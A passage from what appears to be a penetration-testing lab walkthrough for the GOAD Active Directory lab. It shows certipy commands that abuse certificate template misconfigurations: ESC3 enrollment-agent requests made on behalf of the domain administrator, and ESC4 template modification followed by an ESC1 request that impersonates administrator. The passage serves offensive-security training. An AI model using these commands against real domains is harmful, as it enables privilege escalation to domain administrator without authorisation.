 - We also can do the same with the ESC3-CRA and ESC3 templates in the lab :

```bash
certipy req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template ESC3-CRA -ca ESSOS-CA
certipy req -u khal.drogo@essos.local -p 'horse' -target 192.168.56.23 -template ESC3 -ca ESSOS-CA -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx
certipy auth -pfx administrator.pfx -username administrator -domain essos.local -dc-ip 192.168.56.12
```

## ADCS - ESC4 

![adcs_esc4_mindmap.png](/assets/blog/GOAD/adcs_esc4_mindmap.png)

![adcs_esc4_genericall.png](/assets/blog/GOAD/adcs_esc4_genericall.png)

- Take the ESC4 template and change it to be vulnerable to ESC1 technique by using the genericWrite privilege we got. (we didn't set the target here as we target the ldap)

```bash
certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -save-old -debug
```

- Exploit ESC1 on the modified ESC4 template

```bash
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC4 -ca ESSOS-CA -upn administrator@essos.local
```
